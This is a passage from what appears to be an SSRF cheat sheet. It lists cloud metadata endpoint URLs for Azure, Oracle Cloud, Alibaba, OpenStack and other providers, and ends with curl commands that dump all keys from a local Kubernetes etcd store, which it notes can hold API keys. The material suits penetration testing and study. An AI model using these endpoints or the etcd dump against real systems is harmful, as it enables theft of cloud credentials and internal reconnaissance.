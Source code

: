 
## **Packetcloud** ##

https://metadata.packet.net/userdata  


## **Azure** ##


#### **Limited, maybe more exist?** ####
http://169.254.169.254/metadata/v1/maintenance  

#### **Update Apr 2017, Azure has more support; requires the header "Metadata: true"** ####

https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service  
http://169.254.169.254/metadata/instance?api-version=2017-04-02  
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text  

## **OpenStack/RackSpace** ##

**(header required? unknown)**  
http://169.254.169.254/openstack  

## **HP Helion** ##


**(header required? unknown)**  
http://169.254.169.254/2009-04-04/meta-data/  


## **Oracle Cloud** ##

http://192.0.0.192/latest/  
http://192.0.0.192/latest/user-data/  
http://192.0.0.192/latest/meta-data/  
http://192.0.0.192/latest/attributes/  

## **Alibaba** ##

http://100.100.100.200/latest/meta-data/  
http://100.100.100.200/latest/meta-data/instance-id  
http://100.100.100.200/latest/meta-data/image-id  

## **Kubernetes ETCD** ##

Can contain API keys and internal ip and ports  

```
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```
